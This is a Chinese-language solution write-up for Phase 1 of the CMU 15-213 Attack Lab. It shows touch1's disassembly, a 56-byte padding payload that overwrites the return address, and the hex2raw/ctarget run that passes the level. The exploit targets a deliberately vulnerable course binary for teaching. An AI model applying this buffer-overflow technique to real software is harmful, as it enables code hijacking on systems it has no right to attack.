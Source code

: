 # Phase 1

```log
0000000000401839 <touch1>:
  401839:       48 83 ec 08             sub    $0x8,%rsp
  40183d:       c7 05 b5 2c 20 00 01    movl   $0x1,0x202cb5(%rip)        # 6044fc <vlevel>
  401844:       00 00 00 
  401847:       48 8d 3d a9 19 00 00    lea    0x19a9(%rip),%rdi        # 4031f7 <_IO_stdin_used+0x307>
  40184e:       e8 6d f4 ff ff          callq  400cc0 <puts@plt>
  401853:       bf 01 00 00 00          mov    $0x1,%edi
  401858:       e8 d6 04 00 00          callq  401d33 <validate>
  40185d:       bf 00 00 00 00          mov    $0x0,%edi
  401862:       e8 c9 f5 ff ff          callq  400e30 <exit@plt>
```

要调用touch1，只需要构造长度为56的任意二进制数据，然后获取touch1的地址，并以小端法十六进制表示，最后使用hex2raw生成输入数据即可。

由objdump的结果可知，touch1的地址为0x401839，所以以小端法表示则为39 18 40 00 00 00 00 00，最终可构造出以下结果。

```log
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 39 18 40 00 00 00 00 00
```

使用hex2raw配合管道运行ctarget，便可通过touch1。

```log
hsojo@ubuntu:~/Downloads/target<stu_number>$ ./hex2raw -i touch1.txt | ./ctarget -q
Cookie: 0x1fb6091a
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
    user id <stu_number>
    course  15213-f15
    lab attacklab
    result  -259586058:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 39 18 40 00 00 00 00 00 
```
